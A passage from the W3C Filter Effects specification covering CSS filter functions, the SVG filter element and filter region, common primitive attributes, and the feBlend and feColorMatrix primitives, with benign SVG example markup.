  The unit identifier may be omitted if the `<angle>` is zero.

  Default value when omitted is `0deg`.

  The initial value for interpolation is `0deg`.

****invert()** = invert( [ <number> | <percentage> ]? )**

: Inverts the samples in the input image. The passed parameter defines the proportion of the conversion. A value of 100% is completely inverted. A value of `0%` leaves the input unchanged. Values between `0%` and `100%` are linear multipliers on the effect. Values of amount over `100%` are allowed but UAs must clamp the values to `1`. The markup equivalent of this function is [given below](#filter-effects-1:invertEquivalent).

  Negative values are not allowed.

  Default value when omitted is `1`.

  The initial value for interpolation is `0`.

****opacity()** = opacity( [ <number> | <percentage> ]? )**

: Applies transparency to the samples in the input image. The passed parameter defines the proportion of the conversion. A value of `0%` is completely transparent. A value of `100%` leaves the input unchanged. Values between `0%` and `100%` are linear multipliers on the effect. This is equivalent to multiplying the input image samples by amount. Values of amount over `100%` are allowed but UAs must clamp the values to `1`. The markup equivalent of this function is [given below](#filter-effects-1:opacityEquivalent).

  Negative values are not allowed.

  Default value when omitted is `1`.

  The initial value for interpolation is `1`.

  > **Note:** The opacity filter function is not meant to be a shorthand of the `opacity` property. Furthermore, it allows setting the transparency of intermediate filter primitive results before passing to the next filter primitive. If the opacity filter function is set as last filter primitive, the value of the `opacity` property is multiplied on top of the value of the filter function, which may result in a more transparent content.

****saturate()** = saturate( [ <number> | <percentage> ]? )**

: Saturates the input image. The passed parameter defines the proportion of the conversion. A value of `0%` is completely un-saturated. A value of `100%` leaves the input unchanged. Other values are linear multipliers on the effect. Values of amount over `100%` are allowed, providing super-saturated results. The markup equivalent of this function is [given below](#filter-effects-1:saturateEquivalent).

  Negative values are not allowed.

  Default value when omitted is `1`.

  The initial value for interpolation is `1`.

****sepia()** = sepia( [ <number> | <percentage> ]? )**

: Converts the input image to sepia. The passed parameter defines the proportion of the conversion. A value of `100%` is completely sepia. A value of `0%` leaves the input unchanged. Values between 0% and 100% are linear multipliers on the effect. Values of amount over `100%` are allowed but UAs must clamp the values to `1`. The markup equivalent of this function is [given below](#filter-effects-1:sepiaEquivalent).

  Negative values are not allowed.

  Default value when omitted is `1`.

  The initial value for interpolation is `0`.

#### 6.2. Computed Values of Filter Functions {#filter-effects-1:computed-values-of-filter-functions}

The values in a `<filter-function>` are computed as specified, with these exceptions:

- Omitted values are included and compute to their defaults.
- `drop-shadow()` starts with the computed value of `<color>` followed by the computed value of the `<length>` values.

#### 6.3. Serialization of Filter Functions {#filter-effects-1:serialization-of-filter-functions}

To serialize the `<filter-function>`, serialize as per their individual grammars, in the order the grammars are written in, avoiding `calc()` expressions where possible, serialize filter arguments as specified, avoiding `calc()` transformations, joining space-separated tokens with a single space, and following each serialized comma with a single space.

#### 6.4. Interpolation of Filter Functions {#filter-effects-1:interpolation-of-filter-functions}

For interpolation of values in `<filter-function>`s, the steps corresponding to the first matching condition in the following list must be run:

**`blur()`**

: Interpolate values as [length](#css-transitions-2:animtype-length).

**`brightness()` `contrast()` `grayscale()` `invert()` `opacity()` `saturate()` `sepia()`**

: Convert percentage values to numbers with 0% being relative to 0 and 100% relative to 1. Interpolate values [number](#css-transitions-2:animtype-number).

**`hue-rotate()`**

: Interpolate values as [number](#css-transitions-2:animtype-number).

**`drop-shadow()`**

: Interpolate values as [shadow list](#css-transitions-2:animtype-shadow-list).

### 7. SVG Filter Sources: the filter element {#filter-effects-1:FilterElement}

| Name: | **`filter`** |
| --- | --- |
| Categories: | None. |
| Content model: | Any number of the following elements, in any order: [descriptive](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermDescriptiveElement) — desc, title, metadata filter primitive — feBlend, feFlood, feColorMatrix, feComponentTransfer, feComposite, feConvolveMatrix, feDiffuseLighting, feDisplacementMap, feDropShadow, feGaussianBlur, feImage, feMerge, feMorphology, feOffset, feSpecularLighting, feTile, feTurbulence animate script set |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) [externalResourcesRequired](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#ExternalResourcesRequiredAttribute) x y width height filterUnits primitiveUnits |
| DOM Interfaces: | [SVGFilterElement](#filter-effects-1:InterfaceSVGFilterElement) |

The description of the filter element follows:

**<number-optional-number>** = `<number>` <number>?

*Attribute definitions:*

****`filterUnits`** = "**`userSpaceOnUse`** | **`objectBoundingBox`**"**

: See filter region.

****`primitiveUnits`** = "**`userSpaceOnUse`** | **`objectBoundingBox`**"**

: Specifies the coordinate system for the various length values within the filter primitives and for the attributes that define the filter primitive subregion.

  If primitiveUnits is equal to userSpaceOnUse, any length values within the filter definitions represent values in the current local coordinate system in place at the time when the filter element is referenced (i.e., the user coordinate system for the element referencing the filter element via a `filter` property).

  If primitiveUnits is equal to objectBoundingBox, then any length values within the filter definitions represent fractions or percentages of the bounding box on the referencing element (see object bounding box units). Note that if only one number was specified in a `<number-optional-number>` value this number is expanded out before the primitiveUnits computation takes place.

  The initial value for primitiveUnits is userSpaceOnUse.

  Animatable: yes.

****`x`** = "`<length-percentage>`"**

: See filter region.

****`y`** = "`<length-percentage>`"**

: See filter region.

****`width`** = "`<length-percentage>`"**

: See filter region.

****`height`** = "`<length-percentage>`"**

: See filter region.

****`filterRes`** = "`<number-optional-number>`"**

: The *filterRes* attribute was removed from the specification. See SVG 1.1 specification for the defintion [SVG11].

Properties inherit into the filter element from its ancestors; properties do *not* inherit from the element referencing the filter element.

filter elements are never rendered directly; their only usage is as something that can be referenced using the `filter` property. The `display` property does not apply to the filter element; thus, filter elements are not directly rendered even if the `display` property is set to a value other than `none`, and filter elements are available for referencing even when the `display` property on the filter element or any of its ancestors is set to `none`.

### 8. Filter Region {#filter-effects-1:FilterEffectsRegion}

A filter element can define a **filter region** on the canvas to which a given filter effect applies and can provide a resolution for any intermediate continuous tone images used to process any raster-based filter primitives. The filter element has the following attributes which work together to define the filter region:

**filterUnits**

: Defines the coordinate system for attributes x, y, width, height.

  If filterUnits is equal to userSpaceOnUse, x, y, width, height represent values in the current user coordinate system in place at the time when the filter element is referenced (i.e., the user coordinate system for the element referencing the filter element via a `filter` property).

  If filterUnits is equal to objectBoundingBox, then x, y, width, height represent fractions or percentages of the bounding box on the referencing element (see object bounding box units).

  The initial value for filterUnits is objectBoundingBox.

  Animatable: yes.

**x, y, width, height**

: These attributes define a rectangular region on the canvas to which this filter applies.

  The coordinate system for these attributes depends on the value for attribute filterUnits.

  The bounds of this rectangle act as a hard clipping region for each filter primitive included with a given filter element; thus, if the effect of a given filter primitive would extend beyond the bounds of the rectangle (this sometimes happens when using a feGaussianBlur filter primitive with a very large stdDeviation), parts of the effect will get clipped.

  The initial value for x and y is `-10%`.

  The initial value for width and height is `120%`.

  ng of the element which referenced the filter.

  Animatable: yes.

> **Note:** Both of the two possible value for filterUnits (i.e., objectBoundingBox and userSpaceOnUse) result in a filter region whose coordinate system has its X-axis and Y-axis each parallel to the X-axis and Y-axis, respectively, of the local coordinate system for the element to which the filter will be applied.

> **Note:** Sometimes implementers can achieve faster performance when the filter region can be mapped directly to device pixels; thus, for best performance on display devices, it is suggested that authors define their region such that the user agent can align the filter region pixel-for-pixel with the background. In particular, for best filter effects performance, avoid rotating or skewing the user coordinate system.

> **Note:** It is often necessary to provide padding space because the filter effect might impact bits slightly outside the tight-fitting bounding box on a given object. For these purposes, it is possible to provide negative percentage values for x, y and percentages values greater than `100%` for width, height. This, for example, is why the defaults for the filter region are `x="-10%" y="-10%" width="120%" height="120%"`.

### 9. Filter primitives {#filter-effects-1:FilterPrimitivesOverview}

#### 9.1. Overview {#filter-effects-1:FilterPrimitivesOverviewIntro}

This section describes the various filter primitives that can be assembled to achieve a particular filter effect.

Unless otherwise stated, all image filters operate on premultiplied RGBA samples. Some filters like feColorMatrix and feComponentTransfer work more naturally on non-premultiplied data. For the time of the filter operation, all color values must temporarily be transformed to the required color multiplication of the current filter.

> **Note:** All input images are assumed to be in premultiplied RGBA. User agents may optimize performance by using non-premultiplied data buffering.

All raster effect filtering operations take 1 to N input RGBA images, additional attributes as parameters, and produce a single output RGBA image.

The RGBA result from each filter primitive will be clamped into the allowable ranges for colors and opacity values. Thus, for example, the result from a given filter primitive will have any negative color values or opacity values adjusted up to color/opacity of zero.

The color space in which a particular filter primitive performs its operations is determined by the value of the property `color-interpolation-filters` on the given filter primitive. A different property, `color-interpolation` determines the color space for other color operations. Because these two properties have different initial values (`color-interpolation-filters` has an initial value of `linearRGB` whereas `color-interpolation` has an initial value of `sRGB`), in some cases to achieve certain results (e.g., when coordinating gradient interpolation with a filtering operation) it will be necessary to explicitly set `color-interpolation` to `linearRGB` or `color-interpolation-filters` to `sRGB` on particular elements. Note that the examples below do not explicitly set either `color-interpolation` or `color-interpolation-filters`, so the initial values for these properties apply to the examples.

Sometimes filter primitives result in undefined pixels. For example, filter primitive feOffset can shift an image down and to the right, leaving undefined pixels at the top and left. In these cases, the undefined pixels are set to transparent black.

To provide high quality rendering, all filter primitives should operate in a device dependent coordinate space, the **operating coordinate space**, taking device pixel density, user space transformations and zooming into account. To provide a platform independent alignment, attribute and property values are often relative to a coordinate system described by the primitiveUnits attribute. User agents must scale these relative attributes and properties to the operating coordinate space.

> **Note:** On high resolution devices, attribute and property values that are relative to the primitiveUnits usually need to be scaled up. User agents may reduce the resolution of filter primitives on limited platform resources.

> **Note:** Some attribute or property values from the filter primitives feConvolveMatrix and light sources can not be mapped from the coordinate space defined by the primitiveUnits attribute to the operating coordinate space.

#### 9.2. Common filter primitive attributes {#filter-effects-1:CommonAttributes}

The following **filter primitive attributes** are available for all filter primitives:

*Attribute definitions:*

****`x`** = "`<length-percentage>`"**

: The minimum x coordinate for the subregion which restricts calculation and rendering of the given filter primitive. See filter primitive subregion.

  The initial value for x is `0%`.

  Animatable: yes.

****`y`** = "`<length-percentage>`"**

: The minimum y coordinate for the subregion which restricts calculation and rendering of the given filter primitive. See filter primitive subregion.

  The initial value for y is `0%`.

  Animatable: yes.

****`width`** = "`<length-percentage>`"**

: The width of the subregion which restricts calculation and rendering of the given filter primitive. See filter primitive subregion.

  A negative or zero value disables the effect of the given filter primitive (i.e., the result is a transparent black image).

  The initial value for width is `100%`.

  Animatable: yes.

****`height`** = "`<length-percentage>`"**

: The height of the subregion which restricts calculation and rendering of the given filter primitive. See filter primitive subregion.

  A negative or zero value must disable the effect of the given filter primitive (i.e., the result is a transparent black image).

  The initial value for height is `100%`.

  Animatable: yes.

****`result`** = "***<filter-primitive-reference>***"**

: `<filter-primitive-reference>` is an `<custom-ident>` [CSS3VAL] and an assigned name for this filter primitive. If supplied, then graphics that result from processing this filter primitive can be referenced by an in attribute on a subsequent filter primitive within the same filter element. If no value is provided, the output will only be available for re-use as the implicit input into the next filter primitive if that filter primitive provides no value for its in attribute.

Most filter primitives take other filter primitives as input. The following attribute is representative for all input attributes to reference other filter primitives:

*Attribute definitions:*

****`in`** = "*SourceGraphic | SourceAlpha | BackgroundImage | BackgroundAlpha | FillPaint | StrokePaint | `<filter-primitive-reference>`*"**

: Identifies input for the given filter primitive. The value can be either one of six keywords or can be a string which matches a previous result attribute value within the same filter element. If no value is provided and this is the first filter primitive, then this filter primitive will use SourceGraphic as its input. If no value is provided and this is a subsequent filter primitive, then this filter primitive will use the result from the previous filter primitive as its input.

  If the value for result appears multiple times within a given filter element, then a reference to that result will use the closest preceding filter primitive with the given value for attribute result.

  Forward references to results are not allowed, and will be treated as if no result was specified.

  References to non-existent results will be treated as if no result was specified.

  Definitions for the six keywords:

  ****`SourceGraphic`****

  : This keyword represents the graphics elements that were the original input into the filter element. For raster effects filter primitives, the graphics elements will be rasterized into an initially clear RGBA raster in image space. Pixels left untouched by the original graphic will be left clear. The image is specified to be rendered in linear RGBA pixels. The alpha channel of this image captures any anti-aliasing specified by SVG. (Since the raster is linear, the alpha channel of this image will represent the exact percent coverage of each pixel.)

  ****`SourceAlpha`****

  : This keyword represents the graphics elements that were the original input into the filter element. SourceAlpha has all of the same rules as SourceGraphic except that only the alpha channel is used. The input image is an RGBA image consisting of implicitly black color values for the RGB channels, but whose alpha channel is the same as SourceGraphic.

    > **Note:** If this option is used, then some implementations might need to rasterize the graphics elements in order to extract the alpha channel.

  ****`BackgroundImage`****

  : This keyword represents the back drop defined by the current isolation group behind the filter region at the time that the filter element was invoked. See `isolation` property [COMPOSITING-1].

  ****`BackgroundAlpha`****

  : Same as BackgroundImage except only the alpha channel is used. See SourceAlpha and the `isolation` property [COMPOSITING-1].

  ****`FillPaint`****

  : This keyword represents the value of the `fill` property on the target element for the filter effect. The FillPaint image has conceptually infinite extent. Frequently this image is opaque everywhere, but it might not be if the "paint" itself has alpha, as in the case of a gradient or pattern which itself includes transparent or semi-transparent parts. If `fill` references a paint server, then the coordinate space of the paint server is the coordinate space defined for the filtered object. E.g if the paint server requires to use the objectBoundingBox of the object, the object bounding box of the filtered object defines the reference size of the paint server. If the paint server requires to use the userSpaceOnUse, the nearest viewport in the local coordinate system of the filtered object defines the reference size of the paint server.

  ****`StrokePaint`****

  : This keyword represents the value of the `stroke` property on the target element for the filter effect. The StrokePaint image has conceptually infinite extent. See FillPaint above for more details.

  Animatable: yes.

#### 9.3. Filter primitive tree {#filter-effects-1:FilterPrimitiveTree}

Filter primitives with no or one filter primitive input can be linked together to a filter chain. E.g. the filter primitive representation of a `<filter-value-list>` with two or more `<filter-function>`s is an example of a filter chain. Every filter primitive takes the result of the previous filter primitive as input.

> **Example:** A simple example of a filter element with its filter primitive children.
>
> ```
> <filter id="filter">
>   <feColorMatrix type="hueRotate" values="45"/>
>   <feOffset dx="10" dy="10"/>
>   <feGaussianBlur stdDeviation="3"/>
> </filter>
> ```
>
> feColorMatrix, feOffset and feGaussianBlur create a filter chain.
>
> feColorMatrix takes `SourceGraphic` as input. The result is the input of feOffset with its result being the input of feGaussianBlur.

Some filter primitives may have more than one filter primitive inputs. With the use of the in and result attributes it is possible to combine multiple filter primitives to a complex filter structure. Due to the non-forward reference restriction of filter primitives, every filter structure can be represented as a tree, the **filter primitive tree**. The root filter primitive of the filter primitive tree is the most subsequential primitive of filter elements filter primitive children.

A filter chain is one possible filter structure that can also be represented in a filter primitive tree. Therefore, filter chains are referred to as filter primitive trees onwards as well.

A filter element may have one or more filter primitive trees. The filter primitive tree whose subsequent filter primitive is the last filter primitive child of the filter elements is the **primary filter primitive tree**.

Only the primary filter primitive tree contributes to the filter process. Implementations may chose to ignore all other possible filter primitive trees.

If a filter element has no filter primitive tree then the element the filter applies to does not get rendered.

> **Example:** An example of multiple filter primitive trees:
>
> ```
> <filter id="filter">
>   <!-- The first filter primitive tree. Ignored for filter process. -->
>   <feColorMatrix type="hueRotate" values="45"/>
>   <feOffset dx="10" dy="10"/>
>   <feGaussianBlur stdDeviation="3"/>
>   <!-- The primary filter primitive tree. -->
>   <feFlood flood-color="green" result="flood"/>
>   <feComposite operator="in" in="SourceAlpha" in2="flood"/>
> </filter>
> ```
>
> The above filter has 2 filter primitive trees with the filter primitives:
>
> 1. feColorMatrix, feOffset and feGaussianBlur (with feGaussianBlur being the root filter primitive of the tree) as well as
> 2. feFlood and feComposite (with feComposite as the root filter primitive of the tree).
>
> Both filter primitive trees are not connected. Only the 2nd, the primary filter primitive tree contributes to the filter process. The first tree can get ignored by implementations.

#### 9.4. Filter primitive subregion {#filter-effects-1:FilterPrimitiveSubRegion}

All filter primitives have attributes x, y, width and height which together identify a **filter primitive subregion** which restricts calculation and rendering of the given filter primitive. The x, y, width and height attributes are defined according to the same rules as other filter primitives coordinate and length attributes and thus represent values in the coordinate system established by attribute primitiveUnits on the filter element.

x, y, width and height default to the union (i.e., tightest fitting bounding box) of the subregions defined for all referenced nodes. If there are no referenced nodes (e.g., for feImage or feTurbulence), or one or more of the referenced nodes is a standard input (one of SourceGraphic, SourceAlpha, BackgroundImage, BackgroundAlpha, FillPaint or StrokePaint), or for feTile (which is special because its principal function is to replicate the referenced node in X and Y and thereby produce a usually larger result), the default subregion is `0%, 0%, 100%, 100%`, where as a special-case the percentages are relative to the dimensions of the filter region, thus making the default filter primitive subregion equal to the filter region.

If the filter primitive subregion has a negative or zero width or height, the effect of the filter primitive is disabled.

The filter region acts as a hard clip clipping rectangle on the filter primitive’s input image(s).

The filter primitive subregion acts as a hard clip clipping rectangle on the filter primitive result.

All intermediate offscreens are defined to not exceed the intersection of the filter primitive subregion with the filter region. The filter region and any of the filter primitive subregions are to be set up such that all offscreens are made big enough to accommodate any pixels which even partly intersect with either the filter region or the filter primitive subregions.

> **Example:** feTile references a previous filter primitive and then stitches the tiles together based on the filter primitive subregion of the referenced filter primitive in order to fill its own filter primitive subregion.
>
> ```
> <svg width="400" height="400" xmlns="http://www.w3.org/2000/svg">
>   <defs>
>     <filter id="flood" x="0" y="0" width="100%" height="100%" primitiveUnits="objectBoundingBox">
>        <feFlood x="25%" y="25%" width="50%" height="50%"
>           flood-color="green" flood-opacity="0.75"/>
>     </filter>
>     <filter id="blend" primitiveUnits="objectBoundingBox">
>        <feBlend x="25%" y="25%" width="50%" height="50%"
>           in2="SourceGraphic" mode="multiply"/>
>     </filter>
>     <filter id="merge" primitiveUnits="objectBoundingBox">
>        <feMerge x="25%" y="25%" width="50%" height="50%">
>         <feMergeNode in="SourceGraphic"/>
>         <feMergeNode in="FillPaint"/>
>        </feMerge>
>     </filter>
>   </defs>
>
>   <g fill="none" stroke="blue" stroke-width="4">
>      <rect width="200" height="200"/>
>      <line x2="200" y2="200"/>
>      <line x1="200" y2="200"/>
>   </g>
>   <circle fill="green" filter="url(#flood)" cx="100" cy="100" r="90"/>
>
>   <g transform="translate(200 0)">
>     <g fill="none" stroke="blue" stroke-width="4">
>        <rect width="200" height="200"/>
>        <line x2="200" y2="200"/>
>        <line x1="200" y2="200"/>
>     </g>
>     <circle fill="green" filter="url(#blend)" cx="100" cy="100" r="90"/>
>   </g>
>
>   <g transform="translate(0 200)">
>     <g fill="none" stroke="blue" stroke-width="4">
>        <rect width="200" height="200"/>
>        <line x2="200" y2="200"/>
>        <line x1="200" y2="200"/>
>     </g>
>     <circle fill="green" fill-opacity="0.5" filter="url(#merge)" cx="100" cy="100" r="90"/>
>   </g>
> </svg>
> ```
>
> 
>
> Example for subregions
>
> [View this example as SVG](../filter-effects-1/examples/filtersubregion00.svg)
>
> In the example above there are three rectangles that each have a cross and a circle in them. The circle element in each one has a different filter applied, but with the same filter primitive subregion. The filter output should be limited to the filter primitive subregion so you should never see the circles themselves, just the rectangles that make up the filter primitive subregion.
>
> - The upper left rectangle shows an feFlood with `flood-opacity: 75%` so the cross should be visible through the green rect in the middle.
> - The lower left rectangle shows an feMerge that merges SourceGraphic with FillPaint. Since the circle has `fill-opacity="0.5"` it will also be transparent so that the cross is visible through the green rect in the middle.
> - The upper right rectangle shows an feBlend that has `mode="multiply"`. Since the circle in this case isn’t transparent the result is totally opaque. The rect should be dark green and the cross should not be visible through it.

#### 9.5. Filter primitive feBlend {#filter-effects-1:feBlendElement}

| Name: | **`feBlend`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in in2 mode |
| DOM Interfaces: | [SVGFEBlendElement](#filter-effects-1:InterfaceSVGFEBlendElement) |

This filter blends two objects together using commonly used imaging software blending modes. It performs a pixel-wise combination of two input images. (See [COMPOSITING-1].)

*Attribute definitions:*

****`mode`** = "`<blend-mode>`"**

: One of the blend modes defined by “Compositing and Blending Level 1” [COMPOSITING-1] with the input in representing the source `Cs` and the second input in2 representing the backdrop `Cb`. The output of this filter primitive `Cm` is the result of blending `Cs` with `Cb`.

  The initial value for mode is `normal`.

  Animatable: yes.

****`no-composite`** = "**`no-composite`**"**

: If the no-composite attribute is present, the specified blend mode must not apply alpha compositing. See [Blending](#compositing-2:blending) [COMPOSITING-1] for the "mixing" formula without compositing. Otherwise, implementations must combine the blend mode specified by mode with the [Source Over](#compositing-2:porterduffcompositingoperators_srcover) composite operator. See [Blending](#compositing-2:blending) [COMPOSITING-1] for the "mixing" formula with compositing.

  > **Note:** This attribute is an addition to the feBlend element defintion in SVG 1.1. no-composite, when specified, is meant to avoid "double-compositing" effects when blending an input source with the backdrop of the filtered object (E.g. using the BackgroundImage filter primitive). For the majority of use cases authors will not need to specify the no-composite attribute.

  Animatable: no.

****`in2`** = "*(see in attribute)*"**

: The second input image to the blending operation.

  Animatable: yes.

The `normal` blend mode with alpha compositing is equivalent to `operator="over"` on the feComposite filter primitive, matches the blending method used by feMerge and matches the simple alpha compositing technique used in SVG for all compositing outside of filter effects.

> **Example:** ```
> <svg width="5cm" height="5cm" viewBox="0 0 500 500"
>      xmlns="http://www.w3.org/2000/svg">
>   <title>Example feBlend - Examples of feBlend modes</title>
>   <desc>Five text strings blended into a gradient,
>         with one text string for each of the five feBlend modes.</desc>
>   <defs>
>     <linearGradient id="MyGradient" gradientUnits="userSpaceOnUse"
>             x1="100" y1="0" x2="300" y2="0">
>       <stop offset="0" stop-color="#000000" />
>       <stop offset=".33" stop-color="#ffffff" />
>       <stop offset=".67" stop-color="#ff0000" />
>       <stop offset="1" stop-color="#808080" />
>     </linearGradient>
>     <filter id="Normal">
>       <feBlend mode="normal" in2="BackgroundImage" in="SourceGraphic"/>
>     </filter>
>     <filter id="Multiply">
>       <feBlend mode="multiply" in2="BackgroundImage" in="SourceGraphic"/>
>     </filter>
>     <filter id="Screen">
>       <feBlend mode="screen" in2="BackgroundImage" in="SourceGraphic"/>
>     </filter>
>     <filter id="Darken">
>       <feBlend mode="darken" in2="BackgroundImage" in="SourceGraphic"/>
>     </filter>
>     <filter id="Lighten">
>       <feBlend mode="lighten" in2="BackgroundImage" in="SourceGraphic"/>
>     </filter>
>   </defs>
>   <rect fill="none" stroke="blue"
>         x="1" y="1" width="498" height="498"/>
>   <g isolation="isolate" >
>     <rect x="100" y="20" width="300" height="460" fill="url(#MyGradient)" />
>     <g font-family="Verdana" font-size="75" fill="#888888" fill-opacity=".6" >
>       <text x="50" y="90" filter="url(#Normal)" >Normal</text>
>       <text x="50" y="180" filter="url(#Multiply)" >Multiply</text>
>       <text x="50" y="270" filter="url(#Screen)" >Screen</text>
>       <text x="50" y="360" filter="url(#Darken)" >Darken</text>
>       <text x="50" y="450" filter="url(#Lighten)" >Lighten</text>
>     </g>
>   </g>
> </svg>
> ```
>
> 
>
> Example of feBlend
>
> [View this example as SVG](../filter-effects-1/examples/feBlend.svg)

#### 9.6. Filter primitive feColorMatrix {#filter-effects-1:feColorMatrixElement}

| Name: | **`feColorMatrix`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in type values |
| DOM Interfaces: | [SVGFEColorMatrixElement](#filter-effects-1:InterfaceSVGFEColorMatrixElement) |

This filter applies a matrix transformation:

R '       G '       B '       A '       1       =         a 00       a 01       a 02       a 03       a 04         a 10       a 11       a 12       a 13       a 14         a 20       a 21       a 22       a 23       a 24         a 30       a 31       a 32       a 33       a 34        0     0     0     0     1       ⋅       R       G       B       A       1          left [ stack {R' # G' # B' # A' # 1} right ] = left [ matrix { a_00 # a_01 # a_02 # a_03 # a_04 ## a_10 # a_11 # a_12 # a_13 # a_14 ## a_20 # a_21 # a_22 # a_23 # a_24 ## a_30 # a_31 # a_32 # a_33 # a_34 ## 0 # 0 # 0 # 0 # 1 } right ] cdot left[ stack { R # G # B # A # 1 } right]

on the RGBA color and alpha values of every pixel on the input graphics to produce a result with a new set of RGBA color and alpha values.

The calculations are performed on non-premultiplied color values.

*Attribute definitions:*

****`type`** = "**`matrix`** | **`saturate`** | **`hueRotate`** | **`luminanceToAlpha`**"**

: Indicates the type of matrix operation. The keyword matrix indicates that a full 5x4 matrix of values will be provided. The other keywords represent convenience shortcuts to allow commonly used color operations to be performed without specifying a complete matrix.

  The initial value for type is matrix.

  Animatable: yes.

****`values`** = "*list of `<number>`s*"**

: The contents of values depends on the value of attribute type:

  - For `type="matrix"`, values is a list of 20 matrix values (a00 a01 a02 a03 a04 a10 a11 ... a34), separated by whitespace and/or a comma. For example, the identity matrix could be expressed as:

    ```
    type="matrix"
    values="1 0 0 0 0  0 1 0 0 0  0 0 1 0 0  0 0 0 1 0"
    ```
  - For `type="saturate"`, values is a single real number value. A saturate operation is equivalent to the following matrix operation:

